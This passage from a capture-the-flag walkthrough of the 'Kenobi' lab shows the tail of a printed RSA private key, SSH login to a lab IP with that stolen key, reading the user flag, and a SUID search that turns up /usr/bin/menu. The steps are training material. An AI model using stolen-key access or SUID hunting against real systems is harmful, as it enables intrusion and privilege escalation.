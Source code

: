 ```shell
bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph
YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
-----END RSA PRIVATE KEY-----
```

### Use id_rsa to get SSH access as kenobi

Use the id_rsa to access the target as the user kenobi:

```shell
# Now run the commands below to copy the id_rsa to our desktop and use it to get access
cp id_rsa /home/kali/Desktop
cd /home/kali/Desktop
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.254.245
```

Nice! We got access as kenobi.

### User Flag
Now we can get the user.txt flag:

```shell
cat /home/kenobi/user.txt
```

# Privilege Escalation
### Finding /usr/bin/menu SUID running non-absolute PATHs on curl, uname and ifconfig
Lets enumerate SUIDs:

```shell
# Checking SUIDs
find / -perm -u=s -type f 2>/dev/null

# We found an unusual SUID
<SNIP>
/usr/bin/menu
<SNIP>

```
